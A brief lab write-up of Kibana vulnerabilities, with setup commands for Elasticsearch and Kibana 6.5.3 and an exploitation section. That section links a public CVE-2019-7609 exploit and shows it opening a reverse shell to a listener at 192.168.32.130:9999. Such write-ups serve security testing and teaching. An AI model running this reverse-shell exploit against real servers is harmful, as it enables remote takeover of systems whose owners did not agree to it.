



# Unauthorized Access Vulnerability in Kibana

## Vulnerability Description

The Kibana Unauthorized Access Vulnerability refers to a situation where, without proper authentication and authorization configuration, an unauthenticated user can access Kibana's dashboard, data, and other sensitive information. This vulnerability may result in data leaks, attackers controlling the Kibana environment, and other security threats.

## Environment Setup

Install elasticsearch

```
cd /opt
wget https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.5.3.tar.gz
tar -zxvf elasticsearch-6.5.3.tar.gz
cd elasticsearch-6.5.3
useradd es
chmod 777 -R /opt/elasticsearch-6.5.3
./bin/elasticsearch
```



Install kibana

```
wget https://artifacts.elastic.co/downloads/kibana/kibana-6.5.3-linux-x86_64.tar.gz
tar xvf kibana-6.5.3-linux-x86_64.tar.gz
cd kibana-6.5.3-linux-x86_64
./bin/kibana
```

Access port 5601 in a browser.



## Vulnerability Exploitation

exp：https://github.com/LandGrey/CVE-2019-7609

```
[root@localhost CVE-2019-7609-master]# python CVE-2019-7609-kibana-rce.py -u 127.0.0.1:5601 -host 192.168.32.130 -port 9999 --shell
[+] http://127.0.0.1:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 192.168.32.130:9999
```

